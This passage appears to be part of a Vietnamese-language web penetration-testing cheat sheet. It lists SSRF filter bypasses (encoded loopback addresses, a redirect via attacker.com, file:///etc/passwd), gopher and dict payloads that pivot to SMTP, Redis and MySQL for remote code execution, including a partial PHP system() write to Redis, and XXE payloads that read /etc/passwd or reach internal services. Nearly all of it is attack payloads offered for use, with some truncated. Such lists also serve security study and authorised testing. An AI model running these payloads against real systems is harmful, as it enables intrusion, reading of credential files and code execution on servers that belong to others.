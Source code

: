 ### Bypass SSRF filters:

```
# Bypass blacklist domains
http://target.com/page?url=http://127.0.0.1
http://target.com/page?url=http://localhost.attacker.com
http://target.com/page?url=http://2130706433   # Decimal IP
http://target.com/page?url=http://0x7f000001   # Hex IP
http://target.com/page?url=http://0177.0.0.1   # Octal IP

# Redirection bypass
http://target.com/page?url=http://attacker.com/redirect.php  # Nơi redirect.php chuyển hướng đến http://localhost/admin

# URL encoding bypass
http://target.com/page?url=http://%31%32%37%2e%30%2e%30%2e%31

# Protocol bypass
http://target.com/page?url=file:///etc/passwd
http://target.com/page?url=dict://127.0.0.1:22
http://target.com/page?url=gopher://127.0.0.1:25/
```

### SSRF to RCE techniques:

```
# Gopher protocol (PHP, Java, Ruby)
http://target.com/page?url=gopher://127.0.0.1:25/HELO%20localhost%0AMAIL%20FROM...

# Redis exploitation
http://target.com/page?url=dict://127.0.0.1:6379/info
http://target.com/page?url=gopher://127.0.0.1:6379/_set:key:"%3C%3Fphp%20system...

# MySQL exploitation
http://target.com/page?url=gopher://127.0.0.1:3306/_[MYSQL PAYLOAD HERE]
```

## 3.5. XML External Entity (XXE)

XXE cho phép kẻ tấn công can thiệp vào quá trình xử lý XML của ứng dụng để truy cập files hệ thống, thực hiện SSRF, hoặc gây DoS.

### Basic XXE payloads:

```xml
# XXE để đọc file
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <data>&xxe;</data>
</root>

# XXE để thực hiện SSRF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-service:8080"> ]>
<root>
  <data>&xxe;</data>
</root>
```

